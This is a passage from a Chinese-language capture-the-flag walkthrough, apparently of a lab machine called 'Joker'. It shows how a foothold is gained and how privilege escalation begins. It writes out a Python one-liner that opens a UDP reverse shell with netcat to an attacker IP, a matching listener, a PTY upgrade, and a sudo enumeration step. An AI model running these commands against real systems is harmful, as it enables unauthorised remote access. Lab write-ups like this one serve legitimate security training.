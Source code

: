 ![截屏2024-03-24 02.17.10](/assets/media/Joker/%E6%88%AA%E5%B1%8F2024-03-24%2002.17.10.png)

 执行命令通过 UDP 协议出站获取shell

``` shell
import os;os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.16.26 443 >/tmp/f &").read()
```
![截屏2024-03-24 02.23.53](/assets/media/Joker/%E6%88%AA%E5%B1%8F2024-03-24%2002.23.53.png)

成功拿到反弹shell，使用 Python 调用 PTY
``` shell
nc -nvlp 443 -u
python -c 'import pty;pty.spawn("/bin/bash")'
```
![截屏2024-03-24 02.25.49](/assets/media/Joker/%E6%88%AA%E5%B1%8F2024-03-24%2002.25.49.png)

## 0x03 权限提升[alekos]
### sudo提权
查看 sudo 权限提示可无密码执行 sudoedit 命令以 alekos 用户权限编辑`/var/www/*/*/layout.html`

``` shell
sudo -l
```

![截屏2024-03-24 02.27.18](/assets/media/Joker/%E6%88%AA%E5%B1%8F2024-03-24%2002.27.18.png)
